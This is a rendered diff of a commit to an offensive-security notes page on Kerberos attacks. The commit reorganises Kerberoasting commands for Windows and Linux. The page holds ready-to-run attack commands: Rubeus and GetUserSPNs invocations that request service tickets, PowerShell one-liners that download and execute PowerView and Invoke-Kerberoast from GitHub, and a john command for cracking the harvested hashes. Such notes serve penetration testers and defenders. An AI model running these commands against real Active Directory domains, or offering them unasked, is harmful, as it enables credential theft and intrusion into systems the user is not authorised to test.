

Before and after one commit to ville87/offsec, a Markdown page: Windows/kerberos_attacks.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Windows/kerberos_attacks.md
+++ b/Windows/kerberos_attacks.md
@@ -26,7 +26,8 @@ Requires AD Modules:
 
 # Kerberos Attacks
 ## Kerberoasting
-From Windows against single user using Rubeus.exe:
+### From Windows
+Against single user using Rubeus.exe:
 `.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`
 `.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3`
 
@@ -35,10 +36,14 @@ Using Powerview:
 IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/4cedfa1c308a1bc37530725734290d506c0170dd/Recon/PowerView.ps1"))
 Request-SPNTicket -SPN "<SPN>" -Format Hashcat
 ```
-From Linux using GetUserSPN.py:
-`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`
 Using Invoke-Kerberoast:
 `IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`
+
+### From Linux
+Using GetUserSPN.py:
+`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`
+Kerberoast all SPNs (NOT OPSEC!!!):
+`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`
 
 ### Cracking
 `john --format=krb5tgs --wordlist=wordlist svc_mssql`
````
